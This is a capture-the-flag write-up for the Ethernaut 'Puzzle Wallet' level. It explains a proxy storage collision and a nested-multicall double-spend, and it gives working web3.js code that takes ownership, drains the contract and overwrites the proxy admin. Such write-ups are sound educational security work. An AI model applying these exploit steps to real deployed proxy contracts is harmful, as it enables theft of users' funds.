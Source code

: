 # [24. Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0xe13a4a46C346154C41360AAe7f070943F67743c9)

We have an Upgradable Proxy implementation in use here. [Proxies](https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies) are a sort of middleman between some logic and your main contract, such that instead of writing that logic in the main contract and thus not being able to upgrade it, you write it in some other contract and make the proxy point there. This way, if that logic needs an update you create a new contract and point the proxy there. `delegatecall` is used to implement this, but you should know by now that life is not easy when you use `delegatecall` without care!

## Storage Collision

The first thing we may notice is that there is a storage collision between proxy and logic.

| slot | proxy | logic |
|--|--|--|
| 0 | `pendingAdmin` | `owner` |
| 1 | `admin` | `maxBalance` |
| 2 |  | `whitelisted`  (map) |
| 3 |  | `balances`  (map) |

With this exploit in mind, let us see our options:

- If the logic writes to `maxBalance`, it will overwrite `admin` in the proxy. That seems to be a good attack vector to win the game.

- To update `maxBalance`, the wallet balance must be 0 and `msg.sender` must be whitelisted.

- For wallet balance to be 0, we need to drain it somehow.

- To be whitelisted, `addToWhitelist` must be called by the `owner`.

- But hey, `owner` collided with `pendingAdmin` in the proxy, and we can very well overwrite it via `proposeAdmin`! We can add ourselves to the whitelist after becoming the owner.

## Draining the Wallet

The plan seems good so far, but one piece is missing: how do we drain the wallet? Assuming we are both the owner and whitelisted, let's see what we have:

- `deposit` function allows you to deposit, with respect to not exceeding `maxBalance`.
- `execute` function allows you to `call` a function on any address with some value that is within your balance. Without any call data and your address as the destination, this acts like a `withdraw` function.
- `multicall` function allows you to make multiple calls of the above two, in a single transaction. This function is basically the main idea of the entire contract.

The `multicall` function supposedly checks for double spending on `deposit` via a boolean flag; however, this flag works only for one `multicall`! If you were to call `multicall` within a `multicall`, you can bypass it. Since `delegatecall` forwards `msg.value` too, you can put more money than you have to your balance.

## Attack

First things first, let's become the `owner` and whitelist ourselves. Within the console, we are only exposed to the logic contract (`PuzzleWallet`) via `contract` object, but everything goes through proxy first. We can call the functions there by manually giving the calldata.

```js
const functionSelector = '0xa6376746'; // proposeNewAdmin(address)
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.utils.encodePacked(functionSelector, web3.utils.padLeft(player, 64))
})
// confirm that it worked
if (player == (await contract.owner())) {
  // whitelist ourselves
  await contract.addToWhitelist(player)
}
```

The next step is to drain the contract balance. When we check the total balance via `await getBalance(contract.address)` we get `0.001`. So if we somehow deposit `0.001` twice with double-spending, the contract will think total balance to be `0.003` but actually it will be `0.002`. Then we can withdraw our balance alone and the contract balance will be drained.

Here is a schema on how we will arrange the `multicall`s:

```js
// let 'b' denote balance of contract
// call with {value: b}
multicall:[
  deposit(), 
  multicall:[
    deposit() // double spending!
  ],
  execute(player, 2 * b, []) // drain contract
]
```

Writing the actual code for this schema:

```js
// contract balance
const _b = web3.utils.toWei(await getBalance(contract.address))
// 2 times contract balance
const _2b = web3.utils.toBN(_b).add(web3.utils.toBN(_b))
await contract.multicall([
  // first deposit
  (await contract.methods["deposit()"].request()).data,
  // multicall for the second deposit
  (await contract.methods["multicall(bytes[])"].request([
    // second deposit
    (await contract.methods["deposit()"].request()).data
  ])).data,
  // withdraw via execute
  (await contract.methods["execute(address,uint256,bytes)"].request(player, _2b, [])).data
],
{value: _b})
```

Thanks to the `multicall`, the attack will be executed in a single transaction too :) Afterwards, we can confirm via `await getBalance(contract.address)` that the balance of the contract is now 0.

We are ready for the next step, which is to call `setMaxBalance`. Whatever value we send here will overwrite the `admin` value, so we just convert our address to an `uint256` and call this function:

```js
await contract.setMaxBalance(web3.utils.hexToNumberString(player))
// see that admin value is overwritten
await web3.eth.getStorageAt(contract.address, 1)
```

That is all!
